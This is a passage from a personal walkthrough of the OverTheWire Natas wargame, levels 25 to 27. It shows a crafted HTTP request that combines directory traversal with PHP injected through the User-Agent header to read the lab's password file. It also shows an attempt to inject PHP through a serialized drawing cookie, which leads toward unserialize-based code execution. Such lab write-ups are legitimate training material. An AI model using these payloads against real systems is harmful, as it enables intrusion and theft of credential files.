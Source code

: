 My edited request looks like this:
```
GET /?lang=....//logs/natas25_mysess.log HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: <? include "/etc/natas_webpass/natas26" ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic bmF0YXMyNTpHSEY2WDdZd0FDYVlZc3NIVlkwNWNGcTgzaFJrdGw0Yw==
Connection: keep-alive
Cookie: PHPSESSID=mysess
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

And the server responds with:
<details><summary>Password</summary></details>

## level 26 -> 27

Oh great. This level has four input boxes! It commands me to draw a line by entering values for x1, y1, x2, and y2. 
I tried entering 4 values and it returned a black png...hmm.

Let's read the given source:

* There is a Logger class that handles writing to a log file for the duration of the session. 
* There is a showImage function which builds an img tag out of the given file name.
* There is a drawImage function which creates a png and writes it to the given file .
* There is a drawFromUserdata function which gets the coordinates from the request and also reads any drawings stored as cookies.
* Finally, there is a storeData function that gets the values from the request and serializes them before setting as the "drawing" cookie.

I don't see the log class actually being used by the other parts of the code, interestingly. 

So I don't know that I can trick the showImage to generate something other than an image. But the storeData function looks like it just reads the coordinates straight into a cookie that's base64 encoded. Maybe I can try injecting php similar to the previous level as a coordinate, and get the password included, and then decode the base64 blob that's returned as a cookie.
 
I tried url-encoding `<? include "/etc/natas_webpass/natas27" ?>` as the x1 value, and then base64 decoding the drawing cookie:
```
a:3:{i:0;a:4:{s:2:"x1";s:1:"1";s:2:"y1";s:1:"2";s:2:"x2";s:1:"5";s:2:"y2";s:1:"6";}i:1;a:4:{s:2:"x1";s:1:"7";s:2:"y1";s:1:"5";s:2:"x2";s:1:"4";s:2:"y2";s:1:"3";}i:2;a:4:{s:2:"x1";s:42:"<? include "/etc/natas_webpass/natas27" ?>";s:2:"y1";s:1:"5";s:2:"x2";s:1:"4";s:2:"y2";s:1:"3";}}
```

So my php is set in there, but not resolved. I also get the following error displayed:

`Warning: imageline() expects parameter 2 to be long, string given in /var/www/natas/natas26/index.php on line 66`

The decoded cookie looks a little weird, so upon closer inpection of the source, I see that php serialize() is used before it is encoded. I looked up the docs for serialize, and then also [unserialize](https://www.php.net/manual/en/function.unserialize.php) which has a big warning about not trusting user input while unserializing as it could result in code loading and execution.
